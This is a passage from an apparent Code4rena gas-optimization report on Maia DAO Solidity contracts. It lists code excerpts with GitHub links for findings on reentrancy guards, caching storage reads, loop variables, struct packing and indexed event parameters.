984    IPort(localPortAddress).withdraw(_recipient, _token, _deposit);

1008    IAnycallProxy(local`AnyCall`Address).anyCall(
            rootBridgeAgentAddress, _calldata, rootChainId, AnycallFlags.FLAG_ALLOW_FALLBACK, ""
        );

1078     IPort(localPortAddress).withdraw(address(this), address(wrappedNativeToken), minExecCost);

1103   IPort(localPortAddress).withdraw(address(this), address(wrappedNativeToken), gasAmount);

1110   (from, fromChainId,) = IAnycallExecutor(local`AnyCall`ExecutorAddress).context();

1154   try BranchBridgeAgentExecutor(bridgeAgentExecutorAddress).executeNoSettlement(localRouterAddress, data)

1177    try BranchBridgeAgentExecutor(bridgeAgentExecutorAddress).executeWithSettlement(

1201     try BranchBridgeAgentExecutor(bridgeAgentExecutorAddress).executeWithSettlementMultiple(

1324    IAnycallConfig anycallConfig = IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config());

1388    (address from,,) = IAnycallExecutor(local`AnyCall`ExecutorAddress).context();

76    (success, result) = IRouter(_router).anyExecuteNoSettlement(_data[25:_data.length - PARAMS_GAS_OUT]);
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L252

```solidity
File: /src/ulysses-omnichain/BranchBridgeAgentExecutor.sol
104   BranchBridgeAgent(payable(msg.sender)).clearToken(
            sParams.recipient, sParams.hToken, sParams.token, sParams.amount, sParams.deposit
        );

110    (success, result) = IRouter(_router).anyExecuteSettlement(_data[129:_data.length - PARAMS_GAS_OUT], sParams);

147   (success, result) = IRouter(_router).anyExecuteSettlementMultiple(    
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgentExecutor.sol#L104

```solidity
File: /src/ulysses-omnichain/BranchPort.sol
127   uint256 currBalance = ERC20(_token).balanceOf(address(this));

138   uint256 currBalance = ERC20(_token).balanceOf(address(this));

180   IPortStrategy(_strategy).withdraw(address(this), _token, amountToWithdraw);

212    _recipient, _denormalizeDecimals(_deposit, ERC20(_underlyingAddress).decimals())

222   ERC20hTokenBranch(_localAddress).mint(_recipient, _amount);

232    ERC20hTokenBranch(_localAddresses[i]).mint(_recipient, _amounts[i]);

250   ERC20hTokenBranch(_localAddress).burn(_amount - _deposit);

254  _depositor, address(this), _denormalizeDecimals(_deposit, ERC20(_underlyingAddress).decimals())

272  _denormalizeDecimals(_deposits[i], ERC20(_underlyingAddresses[i]).decimals())
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchPort.sol#L127

```solidity
File: /src/ulysses-omnichain/CoreBranchRouter.sol
54   IBridgeAgent(localBridgeAgentAddress).performCallOut{value: msg.value}(
            msg.sender, packedData, 0, _remoteExecutionGas
        );

65    string memory name = ERC20(_underlyingAddress).name();

66    string memory symbol = ERC20(_underlyingAddress).symbol();   

69    ERC20hToken newToken = ITokenFactory(hTokenFactoryAddress).createToken(name, symbol);

78     IBridgeAgent(localBridgeAgentAddress).performCallOut{value: msg.value}(msg.sender, packedData, 0, 0);

102    ERC20hToken newToken = ITokenFactory(hTokenFactoryAddress).createToken(_name, _symbol);

111    IBridgeAgent(localBridgeAgentAddress).performSystemCallOut(address(this), packedData, _rootExecutionGas, 0);

133    if (!IPort(localPortAddress).isBridgeAgentFactory(_branchBridgeAgentFactory)) {

138     address newBridgeAgent = IBridgeAgentFactory(_branchBridgeAgentFactory).createBridgeAgent(
            _newBranchRouter, _rootBridgeAgent, _rootBridgeAgentFactory
        );

143     if (!IPort(localPortAddress).isBridgeAgent(newBridgeAgent)) {
            revert UnrecognizedBridgeAgent();
        }

154     IBridgeAgent(localBridgeAgentAddress).performSystemCallOut(address(this), packedData, _remoteExecutionGas, 0);

164   if (!IPort(localPortAddress).isBridgeAgentFactory(_newBridgeAgentFactoryAddress)) {

165   IPort(localPortAddress).addBridgeAgentFactory(_newBridgeAgentFactoryAddress);

167   IPort(localPortAddress).toggleBridgeAgentFactory(_newBridgeAgentFactoryAddress);

178     if (!IPort(localPortAddress).isBridgeAgent(_branchBridgeAgent)) revert UnrecognizedBridgeAgent();

179   IPort(localPortAddress).toggleBridgeAgent(_branchBridgeAgent);

190   if (!IPort(localPortAddress).isStrategyToken(_underlyingToken)) {

191   IPort(localPortAddress).addStrategyToken(_underlyingToken, _minimumReservesRatio);

193   IPort(localPortAddress).toggleStrategyToken(_underlyingToken);

212   if (!IPort(localPortAddress).isPortStrategy(_portStrategy, _underlyingToken)) {

214   IPort(localPortAddress).addPortStrategy(_portStrategy, _underlyingToken, _dailyManagementLimit);

217    IPort(localPortAddress).updatePortStrategy(_portStrategy, _underlyingToken, _dailyManagementLimit);

220   IPort(localPortAddress).togglePortStrategy(_portStrategy, _underlyingToken);
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/CoreBranchRouter.sol#L54

```solidity
File: /src/ulysses-omnichain/CoreRootRouter.sol
65    bridgeAgentExecutorAddress = IBridgeAgent(_bridgeAgentAddress).bridgeAgentExecutorAddress();

90    if (msg.sender != IPort(rootPortAddress).getBridgeAgentManager(_rootBridgeAgent)) {
            revert UnauthorizedCallerNotManager();
        }

95    if (!IPort(rootPortAddress).isChainId(_toChain)) revert InvalidChainId();

98     if (IBridgeAgent(_rootBridgeAgent).getBranchBridgeAgent(_toChain) != address(0)) revert InvalidChainId();

101   if (!IBridgeAgent(_rootBridgeAgent).isBranchBridgeAgentAllowed(_toChain)) revert UnauthorizedChainId();

104   address rootBridgeAgentFactory = IBridgeAgent(_rootBridgeAgent).factoryAddress();

115   IBridgeAgent(bridgeAgentAddress).callOut{value: msg.value}(_gasReceiver, packedData, _toChain);

128     IPort(rootPortAddress).syncBranchBridgeAgentWithRoot(_newBranchBridgeAgent, _rootBridgeAgent, _fromChain);
    }

148   if (!IPort(rootPortAddress).isGlobalAddress(_globalAddress)) {

153   if (IPort(rootPortAddress).isGlobalToken(_globalAddress, _toChain)) {

159    _globalAddress, ERC20(_globalAddress).name(), ERC20(_globalAddress).symbol(), _remoteExecutionGas

166   IBridgeAgent(bridgeAgentAddress).callOut(_gasReceiver, packedData, _toChain);

187    IPort(rootPortAddress).isGlobalAddress(_underlyingAddress)

188      || IPort(rootPortAddress).isLocalToken(_underlyingAddress, _fromChain)

189      || IPort(rootPortAddress).isUnderlyingToken(_underlyingAddress, _fromChain)

193    address newToken = address(IFactory(hTokenFactoryAddress).createToken(_name, _symbol));

196    IPort(rootPortAddress).setAddresses(
            newToken, (_fromChain == rootChainId) ? newToken : _localAddress, _underlyingAddress, _fromChain
        );

210    if (IPort(rootPortAddress).isLocalToken(_localAddress, _toChain)) revert TokenAlreadyAdded();

213    IPort(rootPortAddress).setLocalAddress(_globalAddress, _localAddress, _toChain);

233    if (!IPort(rootPortAddress).isBridgeAgentFactory(_rootBridgeAgentFactory)) {

244    IBridgeAgent(bridgeAgentAddress).callOut{value: msg.value}(_gasReceiver, packedData, _toChain);

265      IBridgeAgent(bridgeAgentAddress).callOut{value: msg.value}(_gasReceiver, packedData, _toChain);

288     IBridgeAgent(bridgeAgentAddress).callOut{value: msg.value}(_gasReceiver, packedData, _toChain);


315     IBridgeAgent(bridgeAgentAddress).callOut{value: msg.value}(_gasReceiver, packedData, _toChain);
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/CoreRootRouter.sol#L65

```solidity
File: /src/ulysses-omnichain/MulticallRootRouter.sol
78     bridgeAgentExecutorAddress = IBridgeAgent(_bridgeAgentAddress).bridgeAgentExecutorAddress();

96    (blockNumber, returnData) = IMulticall(multicallAddress).aggregate(calls);

120   ERC20hTokenRoot(outputToken).approve(bridgeAgentAddress, amountOut);

123   IBridgeAgent(bridgeAgentAddress).callOutAndBridge{value: msg.value}(
            owner, recipient, "", outputToken, amountOut, depositOut, toChain
        );

155   IBridgeAgent(bridgeAgentAddress).callOutAndBridgeMultiple{value: msg.value}(
            owner, recipient, "", outputTokens, amountsOut, depositsOut, toChain
        );   
        
281   IVirtualAccount(userAccount).call(calls);

289   IVirtualAccount(userAccount).call(calls);

292    IVirtualAccount(userAccount).withdrawERC20(outputParams.outputToken, outputParams.amountOut);

295   IVirtualAccount(userAccount).userAddress(),

309   IVirtualAccount(userAccount).call(calls);

312     IVirtualAccount(userAccount).withdrawERC20(outputParams.outputTokens[i], outputParams.amountsOut[i]);

320   IVirtualAccount(userAccount).userAddress(),

388   IVirtualAccount(userAccount).withdrawERC20(outputParams.outputTokens[i], outputParams.amountsOut[i]);

396   IVirtualAccount(userAccount).userAddress(),

444   IVirtualAccount(userAccount).withdrawERC20(outputParams.outputToken, outputParams.amountOut);

464    IVirtualAccount(userAccount).withdrawERC20(outputParams.outputTokens[i], outputParams.amountsOut[i]);

```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/MulticallRootRouter.sol#L78

```solidity
File: /src/ulysses-omnichain/RootBridgeAgentExecutor.sol
84   (success, result) = IRouter(_router).anyExecuteResponse(
            bytes1(_data[PARAMS_TKN_START]), _data[6:_data.length - PARAMS_GAS_IN], _fromChainId
        );
105    IRouter(_router).anyExecute(bytes1(_data[5]), _data[6:_data.length - PARAMS_GAS_IN], _fromChainId);

137   (success, result) = IRouter(_router).anyExecuteDepositSingle(
                _data[112], _data[113:_data.length - PARAMS_GAS_IN], dParams, _fromChainId
            );

177   (success, result) = IRouter(_router).anyExecuteDepositMultiple(
                bytes1(_data[PARAMS_END_OFFSET + uint16(numOfAssets) * PARAMS_TKN_SET_SIZE_MULTIPLE]),
                _data[
                    PARAMS_START + PARAMS_END_OFFSET + uint16(numOfAssets) * PARAMS_TKN_SET_SIZE_MULTIPLE:
                        length - PARAMS_GAS_IN
                ],
                dParams,
                _fromChainId
            );
208        IRouter(_router).anyExecuteSigned(_data[25], _data[26:_data.length - PARAMS_GAS_IN], _account, _fromChainId);

241   (success, result) = IRouter(_router).anyExecuteSignedDepositSingle(
                _data[132], _data[133:_data.length - PARAMS_GAS_IN], dParams, _account, _fromChainId
            );

283   (success, result) = IRouter(_router).anyExecuteSignedDepositMultiple(
                    _data[PARAMS_END_SIGNED_OFFSET
                        + uint16(uint8(bytes1(_data[PARAMS_START_SIGNED]))) * PARAMS_TKN_SET_SIZE_MULTIPLE],
                    _data[
                        PARAMS_START + PARAMS_END_SIGNED_OFFSET
                            + uint16(uint8(bytes1(_data[PARAMS_START_SIGNED]))) * PARAMS_TKN_SET_SIZE_MULTIPLE:
                            _data.length - PARAMS_GAS_IN
                    ],
                    dParams,
                    _account,
                    _fromChainId
                );

```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgentExecutor.sol#L84

```solidity
File: /src/ulysses-omnichain/RootPort.sol
153   IBridgeAgent(_coreRootBridgeAgent).syncBranchBridgeAgent(_coreLocalBranchBridgeAgent, localChainId);

295   ERC20hTokenRoot(_hToken).mint(_to, _amount, _fromChain);

301   ERC20hTokenRoot(_hToken).burn(_from, _amount, _fromChain);

332   ERC20hTokenRoot(_hToken).burn(_from, _amount, localChainId);

383   if (IBridgeAgent(_rootBridgeAgent).getBranchBridgeAgent(_branchChainId) != address(0)) {

386   if (!IBridgeAgent(_rootBridgeAgent).isBranchBridgeAgentAllowed(_branchChainId)) {

389    IBridgeAgent(_rootBridgeAgent).syncBranchBridgeAgent(_newBranchBridgeAgent, _branchChainId);

435    IERC20hTokenRootFactory(ICoreRootRouter(coreRootRouterAddress).hTokenFactoryAddress()).createToken(
                _wrappedGasTokenName, _wrappedGasTokenSymbol
            )
440   ERC20hTokenRoot(newGlobalToken).mint(_pledger, _pledgedInitialAmount, _chainId);

442   IBridgeAgent(ICoreRootRouter(coreRootRouterAddress).bridgeAgentAddress()).syncBranchBridgeAgent(
            _coreBranchBridgeAgentAddress, _chainId
        );

465    newGasPoolAddress = INonfungiblePositionManager(_nonFungiblePositionManagerAddress)
                .createAndInitializePoolIfNecessary(newGlobalToken, wrappedNativeTokenAddress, _fee, _sqrtPriceX96);
469    newGasPoolAddress = INonfungiblePositionManager(_nonFungiblePositionManagerAddress)
                .createAndInitializePoolIfNecessary(wrappedNativeTokenAddress, newGlobalToken, _fee, _sqrtPriceX96);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootPort.sol#L153

```solidity
File: /src/ulysses-omnichain/VirtualAccount.sol
37   ERC721(_token).transferFrom(address(this), msg.sender, _tokenId);

70   if ((!IRootPort(localPortAddress).isRouterApproved(this, msg.sender)) && (msg.sender != userAddress)) {
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/VirtualAccount.sol#L37

</details>

## [G-02] Massive 15k per tx gas savings - use 1 and 2 for Reentrancy guard
Using true and false will trigger gas-refunds, which after London, are 1/5 of what they used to be. Meaning, using 1 and 2 (keeping the slot non-zero) will cost 5k per change (5k + 5k vs 20k + 5k), saving you 15k gas per function which uses the modifier.

<details>

```solidity
File:   src/erc-20/ERC20Gauges.sol
188   function incrementGauge(address gauge, uint112 weight) external nonReentrant returns (uint112 newUserWeight) {

245   function incrementGauges(address[] calldata gaugeList, uint112[] calldata weights)
        external
        nonReentrant
        returns (uint256 newUserWeight)
    {

273    function decrementGauge(address gauge, uint112 weight) external nonReentrant returns (uint112 newUserWeight) {

322   function decrementGauges(address[] calldata gaugeList, uint112[] calldata weights)
        external
        nonReentrant
        returns (uint112 newUserWeight)
    {

519   function _decrementWeightUntilFree(address user, uint256 weight) internal nonReentrant {                
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Gauges.sol#L188

```solidity
File:   src/erc-4626/ERC4626MultiToken.sol
93    function deposit(uint256[] calldata assetsAmounts, address receiver)
        public
        virtual
        nonReentrant
        returns (uint256 shares)
    {

113   function mint(uint256 shares, address receiver)
        public
        virtual
        nonReentrant
        returns (uint256[] memory assetsAmounts)
    {

132    function withdraw(uint256[] calldata assetsAmounts, address receiver, address owner)
        public
        virtual
        nonReentrant
        returns (uint256 shares)
    {

156   function redeem(uint256 shares, address receiver, address owner)
        public
        virtual
        nonReentrant
        returns (uint256[] memory assetsAmounts)
    {

```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L93

```solidity
File:  src/erc-4626/UlyssesERC4626.sol
34   function deposit(uint256 assets, address receiver) public virtual nonReentrant returns (uint256 shares) {

47   function mint(uint256 shares, address receiver) public virtual nonReentrant returns (uint256 assets) {

59    function redeem(uint256 shares, address receiver, address owner)
        public
        virtual
        nonReentrant
        returns (uint256 assets)
    {

```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/UlyssesERC4626.sol#L34

```solidity
File:   src/talos/base/TalosBaseStrategy.sol
102   function init(uint256 amount0Desired, uint256 amount1Desired, address receiver)
        external
        virtual
        nonReentrant
        returns (uint256 shares, uint256 amount0, uint256 amount1)
    {

182  function deposit(uint256 amount0Desired, uint256 amount1Desired, address receiver)
        public
        virtual
        override
        nonReentrant
        checkDeviation
        returns (uint256 shares, uint256 amount0, uint256 amount1)
    {

238   function redeem(uint256 shares, uint256 amount0Min, uint256 amount1Min, address receiver, address _owner)
        public
        virtual
        override
        nonReentrant
        checkDeviation
        returns (uint256 amount0, uint256 amount1)
    {

298   function rerange() external virtual override nonReentrant checkDeviation onlyStrategyManager {

311  function rebalance() external virtual override nonReentrant checkDeviation onlyStrategyManager {

394   function collectProtocolFees(uint256 amount0, uint256 amount1) external nonReentrant onlyOwner {        
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L102

```solidity
File:   src/ulysses-amm/UlyssesPool.sol
150    function claimProtocolFees() external nonReentrant returns (uint256 claimed) {

159    function addNewBandwidth(uint256 poolId, uint8 weight) external nonReentrant onlyOwner returns (uint256 index) {

223     function setWeight(uint256 poolId, uint8 weight) external nonReentrant onlyOwner {

308     function setFees(Fees calldata _fees) external nonReentrant onlyOwner {

323     function setProtocolFee(uint256 _protocolFee) external nonReentrant {

1093    function swapIn(uint256 assets, uint256 poolId) external nonReentrant returns (uint256 output) {

1147     function swapFromPool(uint256 assets, address user) external nonReentrant returns (uint256 output) {        
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesPool.sol#L150

```solidity
File:  src/ulysses-amm/UlyssesToken.sol
44   function addAsset(address asset, uint256 _weight) external nonReentrant onlyOwner {

60   function removeAsset(address asset) external nonReentrant onlyOwner {

88    function setWeights(uint256[] memory _weights) external nonReentrant onlyOwner {        
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesToken.sol#L44

</details>

## [G-03] Avoid emitting storage values

The caching of a state variable replaces each Gwarmaccess (100 gas) with a much cheaper stack read. We can avoid unnecessary SLOADs by caching storage values that were previously accessed and emitting those cached values.

```solidity
File:   src/talos/base/TalosBaseStrategy.sol
160   emit Initialize(tokenId, msg.sender, receiver, amount0, amount1, shares);

305   emit Rerange(tokenId, tickLower, tickUpper, amount0, amount1);

318   emit Rerange(tokenId, tickLower, tickUpper, amount0, amount1);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L160

## [G-04] Using `>` 0 costs more gas than `!=` 0 when used on a uint in a `require()` statement

This change saves 6 gas per instance. The optimization works until solidity version 0.8.13, where there is a regression in gas costs.

```solidity
File:  src/erc-4626/ERC4626MultiToken.sol
52    require(_weights[i] > 0);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L52

```solidity
File:    src/ulysses-amm/UlyssesToken.sol
47       require(_weight > 0);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesToken.sol#L47

## [G-05] Can make the variable outside of the loop to save gas 

When you declare a variable inside a loop, Solidity creates a new instance of the variable for each iteration of the loop. This can lead to unnecessary gas costs; especially if the loop is executed frequently or iterates over a large number of elements.

By declaring the variable outside of the loop, you can avoid the creation of multiple instances of the variable and reduce the gas cost of your contract.

Here's an example:

<details>

```
contract MyContract {
    function sum(uint256[] memory values) public pure returns (uint256) {
        uint256 total = 0;
        
        for (uint256 i = 0; i < values.length; i++) {
            total += values[i];
        }
        
        return total;
    }
}
```
```solidity
File:  src/erc-20/ERC20Boost.sol
157   address gauge = gaugeList[i];

208   address gauge = gaugeList[offset + i];

237   address gauge = gaugeList[i];
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Boost.sol#L157

```solidity
File: src/erc-20/ERC20Gauges.sol
260  address gauge = gaugeList[i];

261  uint112 weight = weights[i];

339  address gauge = gaugeList[i];

340  uint112 weight = weights[i];

537  address gauge = gaugeList[i];

538  uint112 userGaugeWeight = getUserGaugeWeight[user][gauge];
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Gauges.sol#L260

```solidity
File:  src/erc-20/ERC20MultiVotes.sol
329   address delegatee = delegateList[i];

330   uint256 delegateVotes = _delegatesVotesCount[user][delegatee];
           
332   uint256 votesToFree = FixedPointMathLib.min(delegateVotes, userUnusedVotes(delegatee));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20MultiVotes.sol#L329

```solidity
File:  src/erc-4626/ERC4626MultiToken.sol
202   uint256 share = assetsAmounts[i].mulDiv(_totalWeights, weights[i]);

251   uint256 share = assetsAmounts[i].mulDivUp(_totalWeights, weights[i]);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L202

```solidity
File:  src/ulysses-amm/UlyssesPool.sol
131   uint256 targetBandwidth = totalSupply.mulDiv(bandwidthStateList[i].weight, totalWeights);

176   uint256 targetBandwidth = totalSupply.mulDiv(bandwidthStateList[i].weight, totalWeights);

190   uint256 oldBandwidth = bandwidthStateList[i].bandwidth;

212   uint256 targetBandwidth = totalSupply.mulDiv(bandwidthStateList[i].weight, totalWeights);

233   uint256 targetBandwidth = totalSupply.mulDiv(bandwidthStateList[i].weight, totalWeights);

255   uint256 oldBandwidth = bandwidthStateList[i].bandwidth;

297   uint256 targetBandwidth = totalSupply.mulDiv(bandwidthStateList[i].weight, totalWeights);

908   uint256 updateAmount = bandwidthUpdateAmounts[i];

963   uint256 updateAmount = bandwidthUpdateAmounts[i];

145   uint256 updateAmount = bandwidthUpdateAmounts[i];
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesPool.sol#L131

```solidity
File:  src/ulysses-amm/UlyssesToken.sol
112   uint256 assetBalance = assets[i].balanceOf(address(this));

113   uint256 newAssetBalance = totalSupply.mulDivUp(weights[i], totalWeights);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesToken.sol#L112

```solidity
File: src/ulysses-amm/factories/UlyssesFactory.sol
146    address destination = address(pools[poolIds[i]]);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/factories/UlyssesFactory.sol#L146

</details>

## [G-06] Structs can be packed into fewer storage slots

Each slot saved can avoid an extra Gsset (20000 gas) for the first setting of the struct and subsequent reads as well, as writes have smaller gas savings.

```solidity
File:   src/governance/GovernorBravoInterfaces.sol
105    struct Proposal {
        /// @notice Unique id for looking up a proposal
        uint256 id;
        /// @notice Creator of the proposal
        address proposer;
        /// @notice The timestamp that the proposal will be available for execution, set once the vote succeeds
        uint256 eta;
        /// @notice the ordered list of target addresses for calls to be made
        address[] targets;
        /// @notice The ordered list of values (i.e. msg.value) to be passed to the calls to be made
        uint256[] values;
        /// @notice The ordered list of function signatures to be called
        string[] signatures;
        /// @notice The ordered list of calldata to be passed to each call
        bytes[] calldatas;
        /// @notice The block at which voting begins: holders must delegate their votes prior to this block
        uint256 startBlock;
        /// @notice The block at which voting ends: votes must be cast prior to this block
        uint256 endBlock;
        /// @notice Current number of votes in favor of this proposal
        uint256 forVotes;
        /// @notice Current number of votes in opposition to this proposal
        uint256 againstVotes;
        /// @notice Current number of votes for abstaining for this proposal
        uint256 abstainVotes;
        /// @notice Flag marking whether the proposal has been canceled
        bool canceled;
        /// @notice Flag marking whether the proposal has been executed
        bool executed;
        /// @notice Receipts of ballots for the entire set of voters
        mapping(address => Receipt) receipts;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoInterfaces.sol#L105-L136

```solidity
File: /src/ulysses-omnichain/interfaces/IBranchBridgeAgent.sol
26    struct DepositInput {
    //Deposit Info
    address hToken; //Input Local hTokens Address.
    address token; //Input Native / underlying Token Address.
    uint256 amount; //Amount of Local hTokens deposited for interaction.
    uint256 deposit; //Amount of native tokens deposited for interaction.
    uint24 toChain; //Destination chain for interaction.
}


44   struct DepositParams {
    //Deposit Info
    uint32 depositNonce; //Deposit nonce.
    address hToken; //Input Local hTokens Address.
    address token; //Input Native / underlying Token Address.
    uint256 amount; //Amount of Local hTokens deposited for interaction.
    uint256 deposit; //Amount of native tokens deposited for interaction.
    uint24 toChain; //Destination chain for interaction.
    uint128 depositedGas; //BRanch chain gas token amount sent with request.
}
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IBranchBridgeAgent.sol#L26

```solidity
File: /src/ulysses-omnichain/interfaces/IRootBridgeAgent.sol
31    struct Settlement {
    uint24 toChain; //Destination chain for interaction.
    uint128 gasToBridgeOut; //Gas owed to user
    address owner; //Owner of the settlement
    address recipient; //Recipient of the settlement.
    SettlementStatus status; //Status of the settlement
    address[] hTokens; //Input Local hTokens Addresses.
    address[] tokens; //Input Native / underlying Token Addresses.
    uint256[] amounts; //Amount of Local hTokens deposited for interaction.
    uint256[] deposits; //Amount of native tokens deposited for interaction.
    bytes callData; //Call data for settlement
}
63    struct DepositParams {
    //Deposit Info
    uint32 depositNonce; //Deposit nonce.
    address hToken; //Input Local hTokens Address.
    address token; //Input Native / underlying Token Address.
    uint256 amount; //Amount of Local hTokens deposited for interaction.
    uint256 deposit; //Amount of native tokens deposited for interaction.
    uint24 toChain; //Destination chain for interaction.
}
73  struct DepositMultipleParams {
    //Deposit Info
    uint8 numberOfAssets; //Number of assets to deposit.
    uint32 depositNonce; //Deposit nonce.
    address[] hTokens; //Input Local hTokens Address.
    address[] tokens; //Input Native / underlying Token Address.
    uint256[] amounts; //Amount of Local hTokens deposited for interaction.
    uint256[] deposits; //Amount of native tokens deposited for interaction.
    uint24 toChain; //Destination chain for interaction.
}
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IRootBridgeAgent.sol#L31

## [G-07] Make 3 event parameters indexed when possible

It’s the most gas efficient to make up to 3 event parameters indexed. If there are less than 3 parameters, you need to make all parameters indexed.

[Reference](https://code4rena.com/reports/2023-01-drips#g-05-make-3-event-parameters-indexed-when-possible)

<details>

```solidity
File:  src/erc-20/interfaces/IERC20Boost.sol
222   event UpdateUserBoost(address indexed user, uint256 updatedBoost);

225   event DecrementUserGaugeBoost(address indexed user, address indexed gauge, uint256 UpdatedBoost);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/interfaces/IERC20Boost.sol#L222

```solidity
File:  src/erc-20/interfaces/IERC20Gauges.sol
246    event IncrementGaugeWeight(address indexed user, address indexed gauge, uint256 weight, uint32 cycleEnd);

249    event DecrementGaugeWeight(address indexed user, address indexed gauge, uint256 weight, uint32 cycleEnd);

258    event MaxGaugesUpdate(uint256 oldMaxGauges, uint256 newMaxGauges);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/interfaces/IERC20Gauges.sol#L246

```solidity
File: src/erc-20/interfaces/IERC20MultiVotes.sol
147    event MaxDelegatesUpdate(uint256 oldMaxDelegates, uint256 newMaxDelegates);

153    event Delegation(address indexed delegator, address indexed delegate, uint256 amount);

159    event DelegateVotesChanged(address indexed delegate, uint256 previousBalance, uint256 newBalance);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/interfaces/IERC20MultiVotes.sol#L147

```solidity
File:  src/erc-4626/interfaces/IERC4626.sol
93    event Deposit(address indexed caller, address indexed owner, uint256 assets, uint256 shares);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/interfaces/IERC4626.sol#L93

```solidity
File:  src/erc-4626/interfaces/IERC4626DepositOnly.sol
64    event Deposit(address indexed caller, address indexed owner, uint256 assets, uint256 shares);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/interfaces/IERC4626DepositOnly.sol#L64

```solidity
File:  src/erc-4626/interfaces/IERC4626MultiToken.sol
159    event Deposit(address indexed caller, address indexed owner, uint256[] assets, uint256 shares);

178    event AssetAdded(address asset, uint256 weight);

184    event AssetRemoved(address asset);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/interfaces/IERC4626MultiToken.sol#L159

```solidity
File:  src/erc-4626/interfaces/IUlyssesERC4626.sol
86   event Deposit(address indexed caller, address indexed owner, uint256 assets, uint256 shares);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/interfaces/IUlyssesERC4626.sol#L86

```solidity
File:  src/gauges/interfaces/IBaseV2GaugeManager.sol
111    event AddedGaugeFactory(address gaugeFactory);

114    event RemovedGaugeFactory(address gaugeFactory);

117    event ChangedbHermesGaugeOwner(address newOwner);

120    event ChangedAdmin(address newAdmin);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/interfaces/IBaseV2GaugeManager.sol#L111

```solidity
File: src/governance/GovernorBravoInterfaces.sol
6     event ProposalCreated(
        uint256 id,
        address proposer,
        address[] targets,
        uint256[] values,
        string[] signatures,
        bytes[] calldatas,
        uint256 startBlock,
        uint256 endBlock,
        string description
    );
24    event VoteCast(address indexed voter, uint256 proposalId, uint8 support, uint256 votes, string reason);

27    event ProposalCanceled(uint256 id);

30    event ProposalQueued(uint256 id, uint256 eta);

33    event ProposalExecuted(uint256 id);

36    event VotingDelaySet(uint256 oldVotingDelay, uint256 newVotingDelay);

39    event VotingPeriodSet(uint256 oldVotingPeriod, uint256 newVotingPeriod);

42    event NewImplementation(address oldImplementation, address newImplementation);

45    event ProposalThresholdSet(uint256 oldProposalThreshold, uint256 newProposalThreshold);

48    event NewPendingAdmin(address oldPendingAdmin, address newPendingAdmin);

51    event NewAdmin(address oldAdmin, address newAdmin);

54    event WhitelistAccountExpirationSet(address account, uint256 expiration);

57    event WhitelistGuardianSet(address oldGuardian, address newGuardian);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoInterfaces.sol#L6

```solidity
File:  src/hermes/interfaces/IBaseV2Minter.sol
109    event Mint(address indexed sender, uint256 weekly, uint256 circulatingSupply, uint256 growth, uint256 dao_share);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/interfaces/IBaseV2Minter.sol#L109

```solidity
File:  src/hermes/interfaces/IUtilityManager.sol
82    event ForfeitWeight(address indexed user, uint256 amount);

85    event ForfeitBoost(address indexed user, uint256 amount);

88    event ForfeitGovernance(address indexed user, uint256 amount);

91    event ClaimWeight(address indexed user, uint256 amount);

94    event ClaimBoost(address indexed user, uint256 amount);

97    event ClaimGovernance(address indexed user, uint256 amount);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/interfaces/IUtilityManager.sol#L82

```solidity
File:  src/maia/interfaces/IERC4626PartnerManager.sol
78    event AccrueRewards(address indexed user, uint256 rewardsDelta, uint256 rewardsIndex);

85    event ClaimRewards(address indexed user, uint256 amount);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/interfaces/IERC4626PartnerManager.sol#L78

```solidity
File:  src/rewards/interfaces/IFlywheelAcummulatedRewards.sol
42    event NewRewardsCycle(uint32 indexed start, uint256 indexed end, uint256 reward);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/interfaces/IFlywheelAcummulatedRewards.sol#L42

